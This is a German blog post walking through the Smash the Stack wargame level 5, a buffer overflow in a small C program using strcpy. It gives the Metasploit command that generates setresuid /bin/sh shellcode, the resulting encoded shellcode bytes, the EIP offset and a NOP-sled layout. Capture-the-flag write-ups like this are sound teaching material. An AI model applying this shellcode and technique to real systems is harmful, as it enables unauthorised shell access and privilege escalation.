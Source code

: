 ```yaml
---
layout: post
title:  "Smash the Stack 5"
date:   2014-10-17 13:13:13
categories: IT-Sec
---
```


Herzlich willkommen zurück zu Smash-the-Stack Level5. Dieses mal widmen wir uns folgendem C-Sourcecode (level05.c) :

{% highlight c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char buf[128];
    if(argc < 2) return 1;
    strcpy(buf, argv[1]);
    printf("%s\n", buf);	
    return 0;
}
{% endhighlight %}

Wie unschwer zu erkennen ist sieht das wieder verdammt nach einem guten alten Buffer-Overflow aus. Als erstes wird ein Char-Buffer mit 128 bytes als Festgröße intialisiert. Danach wird die Anzahl der Argumente überprüft. Wird kein Argument übergeben wird das Programm mit dem Returnwert 1 beendet. Nun wird mit der Funktion *strcpy* das erste Argument in den Buffer kopiert. Dieser Buffer wird dann ausgegeben und das Programm wird mit Returnwert 0 beendet.

Wie wir beim Sourcecode von level05.c sehen haben wir diesesmal keine extra-Funktion die eine Shell für uns spawnt. Also müssen wir dies diesesmal erledigen. Zum Generieren des nötigen Shellcodes nutze ich einige tolle Funktionen von *Metasploit*. *Metasploit* ist ein Framework zur Entwicklung und Ausführung von stabilen Exploits. Generieren wir uns also erstmal nötigen Shellcode. Dafür nutze ich bei mir lokal auf der Angreifer-Maschinen folgenden Befehl:

*ruby-1.9 msfpayload linux/x86/exec cmd=/bin/sh PrependSetresuid=true R|ruby-1.9 msfencode -e x86/shikata_ga_nai -b '\x04'*

*msfpayload* ist ein in der Programmiersprache *Ruby* geschriebener Payload-Generator. Der Payload ist der Schadcode der bei dem Exploit ausgeführt wird. Als Ziel-Architektur haben wir den Parameter *linux/x86/exec* gesetzt. Das heißt *mfspayload* wird einen Payload für eine 32bit Linux-Maschine generieren. Als Kommando setzen wir */bin/sh*. Der Payload tut also nichts weiteres als */bin/sh* ausführen. Das *PrependSetresuid* setzt die richtige real user id im shellcode. Das "R" steht für "Raw". Wir generieren also rohen Shellcode. Der Strich nach dem R ist eine Pipe. Damit pipen wir den Output von msfpayload nach msfencode und entfernen die Escapesequenz "\x04". "\x04" ist die Escape-Sequenz für EOT ( End of Transmission ) welcher mir im Shellcode einige Probleme bereitete. Andere nicht gewollte Escape-Sequenzen haben wir zum Glück nicht im Shellcode. So könnte zb die Escape-Sequenz: "\x00" dafür sorgen, dass der Payload nicht vollständig in den Buffer kopiert wird da *strcpy* denkt dort wäre der String zu Ende. "\x00" nennt man auch "Null-Terminator" und ist sowas wie das Symbol für "Hier ist der String zu Ende". Außerdem spezifizieren wir mit dem "-e" Parameter den richtigen Encoder. Wenn man diese Option vergisst benutzt msfencode gerne mal Powershell_base64 als default encoder was zu fehlerhaften shellcode auf linux Systemen führt. Der Output von msfpayload bzw msfencode sieht bei mir so aus:

{% highlight text %}
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)

buf = 
"\xd9\xce\xd9\x74\x24\xf4\x5e\x2b\xc9\xba\x52\x33\x98\x84" +
"\xb1\x0e\x31\x56\x18\x83\xee\xfc\x03\x56\x46\xd1\x6d\xb5" +
"\xaf\x24\x55\x41\xcc\xf7\xcd\x63\x92\x92\x06\x24\x0b\x30" +
"\x7f\xbc\x06\xd6\xf6\xdb\x30\x37\x7a\x4c\xc0\x2f\x53\xee" +
"\xa9\xc1\x22\x0d\x7b\xf6\x3d\xd2\x7b\x06\x11\xb0\x12\x68" +
"\x42\x47\x8c\x74\xcb\xf4\xc5\x94\x3e\x7a"
{% endhighlight %}

Damit ist der Payload genau 80 Bytes groß. Dies ist wichtig für uns, weil der Buffer nur 128 Bytes Platz bietet. 

Wir haben den Payload. Widmen wir uns also wieder der level05.c Binary. Ähnlich wie in Level03 generieren wir erstmal ein Pattern. Dazu benutzen wir aber diesesmal *pattern_create.rb*. Dieses kleine Ruby-Programm finden wir ebenfalls im *Metasploit*-Framework. Mit dem folgenden Befehl kreieren wir ein einzigartiges pattern:

*ruby-1.9 pattern_create.rb 170*

Wenn wir Level05 nun in gdb starten und das pattern als Argument übergeben und level05 ausführen erhalten wir folgenden Output:

![pattern]({{ sitebase.url }}/img/pattern.png)

Anhand dieses Outputs können wir nun den Offset zum instruction pointer Register (EIP) berechnen den wir brauchen. Dazu nutzen wir *pattern_offset.rb* ebenfalls im *Metasploit*-Framework enthalten:

*ruby-1.9 pattern_offset.rb 37654136*

Der daraus berechnete Offset beträgt genau: 140 Bytes.

Als nächstes können wir nun anfangen den stabilen exploit zu bauen. Dafür benutzen wir eine sogenannte "nop-sled". Das sind ganz einfach mehrere "\x90" ( nop ) Operationen hintereinander als Einstiegspunkt. So brauchen wir nur eine nop-Operation treffen und gleiten praktisch in den Shellcode rein der dann die shell für uns ausführt. Die richtige Adresse, also die Adresse an der sich die nop-sled befindet finden wir durch breakpoints setzen und untersuchen des Stacks heraus. Als Layout habe ich mich für diesen Aufbau hier entschieden:

30 * nop + shellcode + 30 * nop + (return adresse die in den nop-sled zeigt)

Davor hatte ich folgendes Layout ausprobiert:

60 * nop + shellcode + (return adresse die in den nop-sled zeigt)

Dies hatte leider seltsamerweise zu segfaults gefühlt. Wieso sich der Exploit so verhalten hat kann ich mir nicht erklären. Aber anscheinend macht es einen Unterschied wo der Shellcode auf dem Stack liegt. Sehr interessant. Ein Vorfall der weiter untersucht werden möchte.

![creepy]({{ sitebase.url }}/img/creepy.png)

Damit wäre Level05 auch endlich gelöst.
